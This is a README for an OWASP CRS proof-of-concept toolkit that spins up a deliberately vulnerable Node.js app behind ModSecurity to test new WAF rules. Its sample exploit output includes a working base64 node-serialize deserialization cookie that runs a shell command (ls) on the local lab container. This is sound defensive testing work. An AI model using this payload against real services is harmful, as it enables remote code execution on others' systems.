 *draft*

# OWASP CRS PoC
set of scripts and dockerfile that could help in creating vulnerability PoC in order to test new OWASP CRS rules.

[![asciicast](https://asciinema.org/a/qb1fM2Q3JrWp5mga8xntLb4R3.svg)](https://asciinema.org/a/qb1fM2Q3JrWp5mga8xntLb4R3)


## Usage

just cd on a PoC dir and run `start.sh` with the CRS pull request id you want to test

```bash
$ cd nodejs-rce-pr-1487/
$ bash start.sh -p 1487
[*] Build and run all containers
Creating network "nodejsrcepr1487_app_net" with driver "bridge"
Creating modsec-crs ... 
Creating vuln-nodejs-app ... 
Creating vuln-nodejs-app
Creating vuln-nodejs-app ... done
Waiting for crs...
.
[*] CRS Ready.
[*] Pull all changes from OWASP CRS remote repository
remote: Enumerating objects: 837, done
...
```

now you can run `exploit.sh`
```bash
$ bash exploit/exploit.sh
* Rebuilt URL to: http://localhost:3000/
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 3000 (#0)
> GET / HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/7.47.0
> Accept: */*
> Cookie: profile=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmV0dXJuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjU3luYygnbHMnLCAoZSxvdXQsZXJyKSA9PiB7IHJldHVybiBvdXQ7IH0pOyB9KCkifQo=;
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 104
< ETag: W/"68-ka7ksPS6+rCrIedwIIZyHPo7ROc"
< Date: Wed, 07 Aug 2019 11:38:43 GMT
< Connection: keep-alive
< 
Hello bin
boot
dev
etc
home
lib
lib64
media
mnt
node_modules
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
* Connection #0 to host localhost left intact
```

all audit logs will be stored in:
- Concurrent JSON file in  `logs/audit`
- ModSecurity Audit log in `logs/modsec_audit.log`
- ModSecurity Debug log in `logs/modsec_debug.log`

you can quickly view all relevant logs by running:
`python3 logs/viewlog.py`


